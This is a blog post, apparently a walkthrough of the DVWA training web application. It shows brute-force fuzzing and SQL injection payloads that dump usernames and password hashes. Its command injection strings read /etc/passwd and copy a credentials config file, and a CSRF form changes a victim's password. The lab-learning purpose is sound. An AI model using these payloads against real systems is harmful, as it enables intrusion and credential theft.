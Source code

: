 ```yaml
---
layout: post
title: DVWA - Part 1
categories: [Vulnerable Web Applications]
tags: [DVWA, OWASP ZAP, SQL injection, Brute Force, CSRF, command injection]

---
```


Damn Vulnerable Web App [DVWA](http://www.dvwa.co.uk/)  is a PHP/MySQL web application that is damn vulnerable. Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a class room environment. It is perfect to practice some of the most common web vulnerabilities, with various levels of difficulty.

![]({{ site.baseurl }}/images/DVWA-1.jpg)

For some challenges we are going to use OWASP ZAP, so we have to configure the proxy. In OWASP ZAP, we need to go to Tools>Options>Local Proxies and make sure that the address is localhost and the port 8080. On the hand, there many ways to configure the proxy settings in Firefox, for example: using the Firefox settings and changing the proxy to manual using localhost 8080 or using a Firefox extension. 

Now, it is time to scan for vulnerabilities.

## BRUTE FORCE

The main goal is to get the login name and password. Here we can use combinations of words, numbers and special symbols and dictionary files.

LOW - MEDIUM - HIGH:

Using a wordlist. To do this, we try to log in as admin with any password. It will give us an error message like user/password is not correct, but if we use the Fuzz option we can do a dictionary brute force. 

![]({{ site.baseurl }}/images/DVWA-2.jpg)

We add a payload (a wordlist) and, in the options section, we change the "delay when fuzzing" to 100ms.

Once the Fuzzer has finished, we will have to sort the Size Response Body from highest to lowest (also interesting to see the State column) to see which is the correct password. In this case the pass is password.

![]({{ site.baseurl }}/images/DVWA-3.jpg)

## SQL INJECTION

In a SQL Injection (SQLi) we can execute malicious SQL statements that control the database server.

LOW - MEDIUM - HIGH:

LOW - HIGH: We can repeat the same steps as in Brute Force with some SQL wordlist or we can use some injections like: 

- ' OR '1' = '1
- ' OR 0 = 0# 
- '=0# 

![]({{ site.baseurl }}/images/DVWA-4.jpg)

To get the passwords, we have followed these SQL injections trying to guess the tables and columns that the database has.

- 1' or 1=1 union select table_schema, table_name from information_schema.tables# ->
- 1' or 1=1 union select null, table_columns from information_schema.columns=users# ->
- 1' or 1=1 union select  user, password from users#

Then, we can crack the hashes with this [tool](https://crackstation.net/).

MEDIUM: We have to select the user ID, so we can modify the request manually using SQL injections.

- 1 or 1=1 
- 1 or 1=1 union select table_schema, table_name from information_schema.tables# ->
- 1 or 1=1 union select null, table_columns from information_schema.columns=users# ->
- 1 or 1=1 union select  user, password from users#

## COMMAND INJECTION

Sending operating system commands in an empty field.

LOW - MEDIUM - HIGH:

LOW: 
- 127.0.0.1; ls
- 127.0.0.1; ls ../../config
- 127.0.0.1; cp ../../config/config.inc.php ../../a.php
- 127.0.0.1; cat /etc/passwd | grep root 
- 127.0.0.1;ifconfig
- 127.0.0.1;ifconfig /all

MEDIUM-HIGH:

![]({{ site.baseurl }}/images/DVWA-5.jpg)

Using the above commands, we change ';' to '|'.

## CSRF

Cross Site Request Forgery (CSRF) is an attack that forces an end user to perform unwanted actions on a web application in which they are currently authenticated.

LOW - MEDIUM - HIGH:

Using part of the HTML code, we can create our own.

```
<form action="html://192.0.0.1/dvwa/vulnerabilities/csrf/?" method="GET">
    <h1>Click on, pleasee>/h1>
    <input type="hidden" AUTOCOMPLETE="off" name="password_name" value="pass123"> <br/>
    <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="pass123"> <br/>
    <input type="submit" name="Change" value="Change"> <br/>
    // Only for HIGH level: <input type="hidden" 
    // name="user_token" value="1778659551266655449ddv4499f"/>
    </form>
```



